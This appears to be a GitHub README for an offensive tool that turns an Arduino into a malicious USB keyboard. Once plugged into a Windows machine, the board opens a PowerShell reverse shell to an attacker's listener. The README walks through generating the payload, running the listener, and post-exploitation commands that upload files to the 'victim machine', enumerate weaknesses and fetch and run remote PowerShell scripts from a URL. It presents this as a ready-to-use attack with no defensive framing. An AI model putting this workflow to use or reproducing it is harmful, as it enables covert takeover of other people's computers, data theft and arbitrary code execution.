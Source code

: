 # 0x539 Tool

This project is to connect a windows maching using an arduino to a listening serverusing a port and a host through TCP. 

## Getting Started

Once the Arduino is plugged to the windows machine you'll have a powershell of that user.

### Prerequisites

To complete this complete this  you will first need to install the [Aduino IDE](https://www.arduino.cc/en/main/software), and a list of python packages.


```
pwn, argparse
```

### Installing

* Install the Arduino IDE.
* Install python on Linux:
```
sudo apt update
sudo apt-get install python3.8
```
* Install pwn

```
pip install pwn
# or
python3 pip install pwn
```

## Running the tool

After cloning this repositort into your linux machine.

### Run the script listener

To see the help menu of the tool listener:

```
python3 listen-usb.py -h
```
```
usage: listen-usb.py [-h] [-debug] --lport LPORT --lhost LHOST --keyboard
                     KEYBOARD

0x539 tool. A tool to connect to thepowershell reversed shell from arduino mini
pro.

optional arguments:
  -h, --help           show this help message and exit
  -debug               debug mode will keep the cmd window open"
  --lport LPORT        port example: 4444
  --lhost LHOST        host example: attackerwebsite.com (or an ip
                       198.23.44.132)
  --keyboard KEYBOARD  keyboard example: azerty (or qwerty)
```


### Example:

Running this next command will generate an Arduino C code, which is the exploit that gonna be uploaded to the Arduino (Im using Arduino pro mini atmega32u4).

```
python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
```
This will keep listening on the specified port and generate a new file called arduino_qwerty.c .
```
# fist terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9001: Done
[┐] Waiting for connections on 0.0.0.0:9001

```
```
# second terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ ls
arduino_qwerty.c  exploits  listen-usb.py  README.md
```
Next thing to do is compile the Arduino c file in the Arduino IDE mentioned earlier, im not gonna go through that cause there's a plenty of tutorials out there to compile an Arduino c code and upload, so just google that, and ill leave a video explaining that later on.

Now once you plug in the Arduino on the usb port, you will be connected to the tool

```
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9003 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9003: Done
[+] Waiting for connections on 0.0.0.0:9003: Got connection from 192.168.183.1 on port 58629

      ___   ___   ___  _____   ____     ___
     / _ \  \  \ /  / | ____| |___ \   / _ \
    | | | |  \  V  /  | |__     __) | | (_) |
    | | | |   >   <   |___ \   |__ <   \__, |
    | |_| |  /  .  \   ___) |  ___) |    / /
     \___/  /__/ \__\ |____/  |____/    /_/

     Tool.

!0x53O>
```

Now that you're connected to the tool, you can interact with the powershell and use the tool commands.

## Tool brief

Type help to get the help menu

```

commands:
    ps              connect to powershell
    upload          download file
    enumerate       enumerate windows vulnerabilities
    urlexec         execute a powershell script from a link
    help            open this help menu
    exit            quit this tool
```

### ps command
Gives you a prompt to powershell on that windows.

### upload command
Uploads a file to the victim machine.
```
usuage:
	upload <link> <filename>
example:
	uplaod https://raw.githubusercontent.com/absolomb/WindowsEnum/master/WindowsEnum.ps1 windowsEnum.ps1
```
### enumerate command
Enumerate the windows privileges and informations.

### urlexec
Execute a powershell script from a url

## Creator

* This tool was Created by [l0x539](https://0x539.co).

